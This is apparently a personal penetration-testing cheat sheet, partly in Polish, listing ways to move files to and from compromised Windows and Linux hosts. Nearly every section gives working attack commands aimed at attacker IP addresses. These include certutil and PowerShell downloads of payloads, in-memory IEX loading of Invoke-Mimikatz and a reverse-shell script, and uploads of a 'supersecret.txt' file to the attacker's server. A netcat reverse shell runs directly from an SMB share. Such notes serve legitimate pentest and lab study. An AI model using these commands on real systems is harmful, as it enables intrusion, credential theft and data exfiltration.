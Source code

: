 

# Metasploit payload deploy 
![[Metasploit#Payload deploy]]

# (Almost) All The Ways to File Transfer
https://juggernaut-sec.com/linux-file-transfers-for-hackers/
https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65
## GTFOBins / LOLBAS
Binarki Windows: https://lolbas-project.github.io/#/download
Binarki Linux: https://gtfobins.github.io/#+file%20download

# Transfering files to Targets
## FTP
```bash
auxiliary/server/ftp
set FTPROOT # folder na ktory,m ma działać server ftp

# ręcznie
cmd> ftp 192.168.100.100 # wchodzenie na server ftp
ftp>User: anonymous
ftp>(password: )
ftp> binary
ftp> get filename

# skrypt  w windows do automatyzacji ftp
cmd> ftp -s:ftp_commands.txt
# plik z poleceniami ftp_commands.txt
open 10.9.122.8
anonymous
whatever
binary
get met8888.exe
bye
```
## TFTP
```bash
auxiliary/server/tftp
set TFTPROOT # folder na ktory,m ma działać server ftp

# ręcznie
cmd> ftp 192.168.100.100 # wchodzenie na server ftp
ftp>User: anonymous
ftp>(password: )
ftp> binary
ftp> get filename
```
```PS
# enable tftp in Windows in command line
cmd> pkgmgr /iu:"TFTP"
tftp -i 192.168.10.10 GET/PUT password.txt
```
## HTTP
pobierz plik znajdujący się pod adresem http://10.10.10.10:1234/file.exe i nazwij go payload.exe 
```PowerShell
 # narzędzia do pobierania plików (jak curl)
 # pobierz plik na dysk
cmd> certutil -urlcache -f http://10.10.10.10:1234/file.exe payload.exe # cmd.exe

PS> IWR -Uri http://172.16.1.30/nc.exe -OutFile C:\temp\nc.exe # Powershell

PS> (new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\jarrieta\Desktop\met8888.exe') # Powershell

curl.exe 172.16.1.30/wget.exe -o C:\temp\wget.exe


# POBIERZ I WYKONAJ W PAMIĘCI
# IEX is only useful for downloading and executing PS1 scripts and BATCH (.BAT) files into memory. This will NOT download and execute an EXE file into memory.
PS> IEX(New-Object System.Net.WebClient).DownloadString('http://172.16.1.30/Invoke-Mimikatz.ps1') # Powershell

cmd> powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://172.16.1.30/Invoke-PowerShellTcp.ps1')"

```
Upload plików do atakującego
```Powershell
# wymaga włączonego serwera http z mozliwością uploadu
PS> (New-Object System.Net.WebClient).UploadFile('http://172.16.1.30/', 'C:\temp\supersecret.txt')
# mając wgrany na serwer apache (/var/www/html) plik upload.php pozwaljący na upload plików
PS> (New-Object System.Net.WebClient).UploadFile('http://172.16.1.30/upload.php', 'C:\temp\supersecret.txt')
cmd>powershell.exe -c "(New-Object System.Net.WebClient).UploadFile('http://172.16.1.30/upload.php', 'C:\temp\supersecret.txt')"
cmd> curl.exe -F 'file=@C:\\temp\\supersecret.txt' http://172.16.1.30
cmd> curl.exe -F 'file=@C:\\temp\\supersecret.txt' http://172.16.1.30/upload.php

```

```bash
wget http://192.196.45.2/php-backdoor.php
curl ...
```
![[(reverse) shell#scp]]
### Python Web Server

```python
python -m SimpleHTTPServer 80 # python 2.x
python -m http.server 80 # python 3.x
```

## SMB
Pobierz pliki z serwera SMB
```powershell
cmd> copy \\172.16.1.30\hax\nc.exe C:\temp\nc.exe
```
Upload plików na serwer SMB
```powershell
cmd> copy C:\temp\supersecret.txt \\172.16.1.30\hax\supersecret.txt
```
Since Windows handles UNC paths, you can just treat the `hax` share as if it’s just a local folder from Windows. Basic Windows file commands like `dir`, `copy`, `move`, etc all just work
```powershell
cmd> net viev \\10.10.10.1 # chec share
cmd> dir \\10.10.10.1\hax # list content
```
### Python SMB Server
![[impacket#smbserver]]
```powershell
# kali attacker
$ impacket-smbserver smbfolder $(pwd) -smb2support -user vk9guest -password vk9pass

# W windows victim
PS> $pass = ConvertTo-SecureString ‘vk9pass’ -AsPlainText -Force
PS> $pass
PS> $cred = New-Object System.Management.Automation.PSCredential(‘vk9guest’, $pass)
PS> $cred
# tworzy nowy dysk wirtualny (PSDrive) o nazwie "vk9smb3"
PS> New-PSDrive -Name vk9smb -PSProvider FileSystem -Credential $cred -Root \\10.10.14.13\smbfolder
# -Root \\10.10.14.13\smbfolder określa lokalizację, która będzie punktem początkowym dla tego nowego dysku wirtualnego
PS> cd vk9smb:
PS> dir
PS> .\winPEASx64.exe # execute program
# If you need to mount multiple times use only a different name
PS> New-PSDrive -Name vk9smb2 -PSProvider FileSystem -Credential $cred -Root \\10.10.14.13\smbfolder
PS> New-PSDrive -Name vk9smb3 -PSProvider FileSystem -Credential $cred -Root \\10.10.14.13\smbfolder
```

### Executing Files Directly from Attacker’s SMB Server (NO TRANSFER NEEDED)
```powershell
\\172.16.1.30\hax\nc.exe 172.16.1.30 443 -e cmd.exe
```
## evil-winrm
![[evil-winrm#File transfer]]
# EXECUTING Files and Scripts in WINDOWS DIRECTLY from Attacker
## evil-winrm
![[evil-winrm#Executing Files and Scripts Directly from Attacker (NO TRANSFER NEEDED)]]
## PowerShell z SMB share
Uruchom zdalnie exe z SMB share 
https://community.spiceworks.com/topic/1999030-remotely-executing-an-application-from-smb-share

```powershell 
PS C:\Users\user> Invoke-Command -ComputerName target-computer -ScriptBlock{ 
$CurrentLocation = "\\server\share"
$exe = "application.exe "
$Arguments = "/S", "/qn" # change as needed
Start-Process -FilePath "$CurrentLocation\$exe" -ArgumentList $Arguments
}
```

```query
spawning TTY Shells 
```